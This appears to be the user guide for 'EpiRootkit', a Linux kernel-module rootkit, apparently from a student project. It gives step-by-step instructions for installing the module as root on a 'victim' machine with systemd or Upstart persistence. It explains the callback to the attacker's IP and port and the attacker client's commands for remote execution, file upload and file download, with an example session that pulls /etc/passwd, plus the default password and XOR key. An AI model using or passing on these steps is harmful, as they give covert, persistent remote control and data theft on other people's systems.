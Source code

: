 # EpiRootkit Guide v1.0

## Introduction
This guide explains how to install, use, and remove the EpiRootkit on a Linux system. It also describes the roles of the victim and attacker machines, and how to interact with the rootkit using the provided client tools.

---

## 1. Machine Roles
- **Victim Machine**: The Linux system where the rootkit (kernel module) will be installed. This is the target of the attack.
- **Attacker Machine**: The system from which you control the rootkit, using the provided Python client tools (`client.py` or `epirootkit_client.py`).

---

## 2. Installation (Victim Machine)
1. **Copy the `rootkit/` directory to the victim machine.**
2. **Run the installation script as root:**
   ```bash
   cd rootkit
   sudo ./install.sh
   ```
   - The script will compile the kernel module, install it, and set up persistence (systemd or Upstart, depending on the OS).
   - The module will connect to the attacker's IP and port as specified in `epirootkit.c` (default: `192.168.15.6:4242`).
   - You can edit `epirootkit.c` to change the server IP/port, then recompile.

---

## 3. Attacker Setup (Attacker Machine)
1. **Ensure Python 3 is installed.**
2. **Run the client tool:**
   ```bash
   cd attacking_program
   python3 client.py
   # or
   python3 epirootkit_client.py
   ```
   - The client will listen on the configured port (default: 4242) for a connection from the victim.
   - When the rootkit connects, you will be prompted for a password (default: `epirootkit`).

---

## 4. Usage (Attacker Machine)
After authentication, you can use the following commands:
- `exec <command>`: Execute a shell command on the victim.
- `upload <local_path> <remote_path>`: Upload a file to the victim.
- `download <remote_path> <local_path>`: Download a file from the victim.
- `auth change <newpassword>`: Change the rootkit password.
- `exit` or `quit`: Close the session.

**Example session:**
```
$ python3 client.py
[+] En attente de connexion sur 0.0.0.0:4242 ...
[+] Connexion reçue de <victim_ip>:<port>
Mot de passe: epirootkit
[+] Authentifié.
$ exec uname -a
Linux victim 5.4.0-42-generic ...
$ upload myfile.txt /tmp/secret.txt
Upload success
$ download /etc/passwd passwd_copy
[+] Fichier téléchargé: passwd_copy
$ auth change newpass123
Password changed successfully
$ exit
```

---

## 5. Uninstallation (Victim Machine)
To remove the rootkit and its persistence:
```bash
cd rootkit
sudo ./uninstall.sh
```

---

## 6. Notes
- The rootkit uses XOR encryption for communication (key: `epirootkit`).
- The default password is `epirootkit`. Change it after first use for better security.
- The rootkit will attempt to reconnect to the attacker if the connection is lost.
- For Ubuntu 14.04, Upstart is used for persistence; for newer systems, systemd is used.

---

## 7. Troubleshooting
- If the module does not load, check kernel headers and permissions.
- If the client does not receive a connection, verify network/firewall settings and the IP/port in `epirootkit.c`.

---

**For educational and authorized testing only.**


